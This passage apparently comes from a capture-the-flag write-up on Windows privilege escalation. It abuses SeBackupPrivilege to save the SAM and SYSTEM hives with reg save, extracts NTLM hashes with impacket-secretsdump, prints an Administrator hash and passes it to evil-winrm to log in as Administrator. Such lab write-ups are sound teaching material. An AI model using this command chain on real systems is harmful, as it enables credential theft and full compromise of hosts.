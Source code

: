 ![emily_priv](emily_priv.png)

**Finding:**  
The account has the `SeBackupPrivilege` enabled and is a member of the **Backup Operators** group.  
This privilege allows us to back up system hives, which can be used to extract credential hashes.

---

### 4.2 Dumping SAM and SYSTEM Hives

We save the `SAM` and `SYSTEM` registry hives to a temporary directory on the target:

``` bash
reg save hklm\sam C:\temp\sam.hive 
reg save hklm\system C:\temp\system.hive
```

**Alternative:** In addition to `reg save`, tools like `diskshadow` or `ntdsutil` can be used to dump hives, but `reg save` is simpler and works reliably on most Windows systems.

---

### 4.3 Downloading the Hives

We transfer both files to our local machine:

``` bash
download sam.hive 
download system.hive
```

---

### 4.4 Extracting NTLM Hashes

We use `impacket-secretsdump` locally to dump the NTLM hashes from the extracted hives:

``` bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

![local_hives](local_hives.png)

**Finding:**  
We recover the **Administrator** NTLM hash:

`2b87e7c93a3e8a0ea4a581937016f341`

---

### 4.5 Pass-the-Hash to Administrator

We reuse the NTLM hash to authenticate as the `Administrator` account via Evil-WinRM:

``` bash
evil-winrm -i 10.10.11.35 -u 'Administrator' -H 2b87e7c93a3e8a0ea4a581937016f341
```

